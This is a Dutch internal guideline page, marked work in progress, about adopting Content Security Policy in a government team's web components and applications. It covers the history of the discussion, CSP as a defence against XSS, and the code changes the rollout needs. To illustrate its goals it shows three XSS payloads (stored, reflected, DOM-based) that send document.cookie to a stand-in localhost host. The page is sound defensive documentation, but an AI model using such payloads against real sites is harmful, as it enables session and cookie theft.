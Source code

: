 
<Meta title="Richtlijnen/CSP/Content Security Policy"/>

# Content Security Policy (WIP)

Zie ook https://www.milieuinfo.be/confluence/display/FEO/CSP+compliance<br/>
&nbsp;&nbsp;-> op te nemen op of naast deze pagina en te verwijderen uit confluence

## Inleiding

Tot op heden (begin 2023) wordt er door UIG niets gespecifieerd rond [CSP](https://content-security-policy.com/).
Volgende zaken zijn al gebeurd m.b.t. CSP:

### januari 2023

In het kader van ticket [UIG-2207](https://www.milieuinfo.be/jira/browse/UIG-2207) zijn er beperkt zaken bekeken,
er is nog geen actie ondernomen (zie ook de opmerkingen in het ticket).

### maart 2023

Het volgende is gemeld op de [TAW van 02/03/2023](https://www.milieuinfo.be/confluence/display/AEO/2023-03-02%3A%3A+Verslag)
door Christophe De Blende en besproken:

> Ik heb zo het gevoel dat de urgentie van CSP onderschat wordt. Hier een paar statistieken van de verschillende
aanvallen die op de RP innet gecapteerd worden: <a href="top-threats-20221013.pdf" target="_blank">23/10/2022</a>, <a href="top-threats-20230213.pdf" target="_blank">23/02/2023</a> en <a href="top-threats-20230227.pdf" target="_blank">27/02/2023</a>.
Van belang, al wat via SSL gebeurt zien we zelf niet. Dus er zijn veel exploits die nog niet gedetecteerd worden
omwille van de huidige firewall / ssl terminatie setup.<br/>
Er is wel een tijdje een firewall loop toegevoegd geweest om log4j shell exploit te kunnen firefighten en deze
statistieken zijn ook meegenomen. Om aan te geven dat je met een factor 100 mag vermenigvuldigen wat je nu ziet
in de dagdagelijkse statistieken.

Hierbij zijn er volgende vragen / bemerkingen:
- hoe verhouden die statistieken zich tot CSP: welke zullen er verminderen / verdwijnen als CSP actief wordt ?
- het 'algemeen activeren van CSP' op de reverse-proxy (wat Lode al eens geprobeerd zou hebben - op ontwikkel?) is
  niet zinvol, veel toepassingen zullen dan niet meer werken
- CSP activatie zou applicatie per applicatie moeten doorgevoerd worden, omdat dit een grote doorlooptijd
  (maanden / jaren) zal hebben zouden statistieken per sub-domein uitgesplitst moeten worden om impact te kunnen zien


## CSP en XSS

Eén van de belangrijkste zaken waartegen je je kan beschermen met CSP is tegen Cross Side Scripting (XSS). Een uitleg
van wat XSS is vind je in het artikel [cross site scripting xss](https://auth0.com/blog/cross-site-scripting-xss), hoe
je je dan met CSP daartegen kan beschermen staat uitgelegd in
[defending against xss with csp](https://auth0.com/blog/defending-against-xss-with-csp). Voor toepassingen die een SPA
opzet volgen is er het specifiekere artikel [deploying csp in spa](https://auth0.com/blog/deploying-csp-in-spa).


## Doelen

Het hoofddoel om CSP te activeren is om te zorgen dat een webtoepassing enkel eigen, vertrouwde code bevat en uitvoert.
Enkel de eigen geschreven / voorziene javascript, html en css mag getoond en uitgevoerd worden. Wijzigen, tonen of
uitvoeren van 'andere' code wordt afgeblokt. Voorbeelden hiervan zijn:

### Stored XSS tegenhouden

In input velden zou malicious code ingevoerd kunnen worden conform:

```
<script>fetch(`http://localhost:4000?data=${document.cookie}`)</script>
```

Als deze code dan (denk bvb. in het geval van een blog) door een andere gebruiker geopend en uitgevoerd wordt kunnen er
ongewenst gegevens gecapteerd worden.

### Reflected XSS tegenhouden

Links (aangeboden via een href of verborgen via een shortening service) die refereren naar een toepassing kunnen
scripts bevatten:

```
http://localhost:3000/?newReview=%3Cscript%3Efetch%28%60http%3A%2F%2Flocalhost%3A4000%3Fdata%3D%24%7Bdocument.cookie%7D%60%29%3C%2Fscript%3E
```

### DOM based XSS tegenhouden

In de DOM kan (door via een malicious website omgeleid te zijn) geldige, maar kwaadwillige html gestoken zijn.

```
<img src="noimage" onerror=fetch(`http://localhost:4000?data=${document.cookie}`)/>
```

### CSS XSS tegenhouden

Zie het filmpje en de presentatie op [xss no the other s](https://mikewest.org/2013/09/xss-no-the-other-s-cssconfeu-2013).


## CSP activeren

Wat er praktisch dient te gebeuren naar deploy en configuratie toe om CSP te activeren voor de complexere
toepassingen wordt beschreven in [deploying csp in spa](https://auth0.com/blog/deploying-csp-in-spa).

Alvorens dit echter kan zullen er code wijzigingen moeten gebeuren, denk hierbij aan:

- inline javascript mag niet - alle javascript moet in aparte .js bestanden gestoken worden<br/>
  -> de overgrote meerderheid van onze webcomponenten heeft geen inline javascript<br/>
  -> toepassing per toepassing moet bekeken worden om dat eventueel weg te werken
- inline styling mag niet<br/>
  -> zowel in de webcomponenten als in toepassingen zal dit voorkomen, veel meer dan inline javascript
- voor externe componenten moet geëvalueerd worden hoe we ze CSP gewijs kunnen gebruiken, 2 belangrijke zijn
  [TinyMCE](https://www.tiny.cloud/docs/tinymce/6/tinymce-and-csp/) en de
  [global header en footer](https://www.vlaanderen.be/digitaal-vlaanderen/onze-oplossingen/mijn-burgerprofiel/global-header-en-footer)
  van Digitaal Vlaanderen
